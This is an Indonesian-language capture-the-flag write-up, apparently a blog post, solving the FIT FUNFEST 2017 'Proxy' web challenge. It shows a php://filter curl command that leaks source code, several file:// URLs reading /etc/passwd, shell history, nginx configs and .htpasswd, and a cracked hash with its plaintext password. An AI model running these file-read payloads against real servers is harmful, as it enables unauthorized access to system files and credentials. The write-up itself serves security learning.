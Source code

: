 ```yaml
---
layout: post
title: 'Writeup FIT FUNFEST 2017 : Proxy'
description: Writeup Proxy FIT FUNFEST CTF
modified: 2017-03-16
date: 2017-03-16
category: Web Exploitation
tags: FIT CTF
imagefeature: /images/fit-funfest.png
mathjax: false
chart: null
comments: true
featured: true
published: true
private: 'false'
---
```



### Soal

```
http://128.199.66.146:12121/proxy/
```

### Solusi

Diberikan website seperti layanan proxy kita bisa mengakses website lain melalui
layanan tersebut kemudian kita memanfaatkan Wrappers yang tidak di blacklist
untuk membaca file config dan menemukan folder secret yang di authentikasi
dengan Basic HTTP Authentication kami melakukan decrpyt password .htpasswd
yang di gunakan algoritma {SHA} kemudian kami mengauthentikasi dan
mendapatkan flag

Setelah melakukan analisa kepada layanan yang tersedia yaitu proxy untuk
membuka website di input field nya ada placeholder http atau https tapi ternyata ada beberapa wrappers yang masih bisa di gunakan karena tidak di disable atau di blacklist. Pertama kita bisa mendapatkan source code layanan proxy dalam base64 dan melakukan decode untuk membaca source code aslinya dengan command

`curl http://128.199.66.146:12121/proxy/?url=php://filter/convert.base64-encode/resource=index.php | base64 -d > index.php`

```php
<?php
error_reporting(0);
if (isset($_GET['url'])) {
$url = $_GET['url'];
if (filter_var($url, FILTER_VALIDATE_URL) === FALSE) {
die('Not a valid URL');
}
$content = file_get_contents($url);
die($content);
}
?>
<header>
<title>Proxy</title>
<link
href='http://fonts.googleapis.com/css?family=Open+Sans+Condensed:300'
rel='stylesheet' type='text/css'>
<style type="text/css">
.form-style-8{
font-family: 'Open Sans Condensed', arial, sans;
width: 500px;
padding: 30px;
background: #FFFFFF;
margin: 50px auto;
box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
-moz-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
-webkit-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
}
.form-style-8 h2{
background: #4D4D4D;
text-transform: uppercase;
font-family: 'Open Sans Condensed', sans-serif;
color: #797979;
font-size: 18px;
font-weight: 100;
padding: 20px;
margin: -30px -30px 30px -30px;}
.form-style-8 input[type="text"],
.form-style-8 input[type="date"],
.form-style-8 input[type="datetime"],
.form-style-8 input[type="email"],
.form-style-8 input[type="number"],
.form-style-8 input[type="search"],
.form-style-8 input[type="time"],
.form-style-8 input[type="url"],
.form-style-8 input[type="password"],
.form-style-8 textarea,
.form-style-8 select
{
box-sizing: border-box;
-webkit-box-sizing: border-box;
-moz-box-sizing: border-box;
outline: none;
display: block;
width: 100%;
padding: 7px;
border: none;
border-bottom: 1px solid #ddd;
background: transparent;
margin-bottom: 10px;
font: 16px Arial, Helvetica, sans-serif;
height: 45px;
}
.form-style-8 textarea{
resize:none;
overflow: hidden;
}
.form-style-8 input[type="button"],
.form-style-8 input[type="submit"]{
-moz-box-shadow: inset 0px 1px 0px 0px #45D6D6;
-webkit-box-shadow: inset 0px 1px 0px 0px #45D6D6;
box-shadow: inset 0px 1px 0px 0px #45D6D6;
background-color: #2CBBBB;
border: 1px solid #27A0A0;
display: inline-block;
cursor: pointer;
color: #FFFFFF;
font-family: 'Open Sans Condensed', sans-serif;font-size: 14px;
padding: 8px 18px;
text-decoration: none;
text-transform: uppercase;
}
.form-style-8 input[type="button"]:hover,
.form-style-8 input[type="submit"]:hover {
background:linear-gradient(to bottom, #34CACA 5%, #30C9C9 100%);
background-color:#34CACA;
}
</style>
</header>
<body>
<div class="form-style-8">
<h2>PROXY</h2>
<form>
<input type="text" name="url" placeholder="http:// or https://" />
</form>
</div>
</body>
```

Kurang lebih source code tersebut seperti di atas 

Kemudian kami mencoba mencari cara untuk mendapatkan Remote Code Injection
karena kami belum menemukan lokasi flag berada.
Kami juga mencoba membaca beberapa file berikut dengan wrappers file://

```
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/passwd
http://128.199.66.146:12121/proxy/index.php?url=file:///home/web-x/.bash_history
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/hosts
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/default
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/web-x
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/web-y
```

Pada file /etc/nginx/sites-available/default kami melihat ada directory rahasia yang di
proteksi dengan ​ HTTP Basic Authentication

```
location /secret_page_uksw/ {
try_files $uri $uri/ =404;
autoindex on;
auth_basic "Restricted Content";
auth_basic_user_file /etc/nginx/.htpasswd;
}
```

Kita baca file .htpasswd nya dengan url berikut

`http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/.htpasswd`

isinya seperti ini 

`fit-uksw:{SHA}NABfMvw51MY+i1z+THOgpy9oysc=`

![dectypt-sha1-htpasswd.png](/images/dectypt-sha1-htpasswd.png)


Kemudian kami crack password yang ada pada .htpasswd tersebut sehingga di
temukan plain text dari password adalah “indonesia45”
Selanjutnya kita cari di mana folder /secret_page_uksw/ berada pertama coba di
http://128.199.66.146:12121/secret_page_uksw/ namun masih not found, kami
coba baca lagi konfigurasi nginx nya ternyata port nya ngak di custom, dia
menggunakan port default yang terletak pada http://128.199.66.146/secret_page_uksw/ Kemudian kami masukan username danpassword untuk basic authentication **fit-uksw:indonesia45**

![secret-page-proxy-flag.png]({{site.baseurl}}/images/secret-page-proxy-flag.png)

**FIT2017{not_only_know_web_bug_but_also_server_config}**

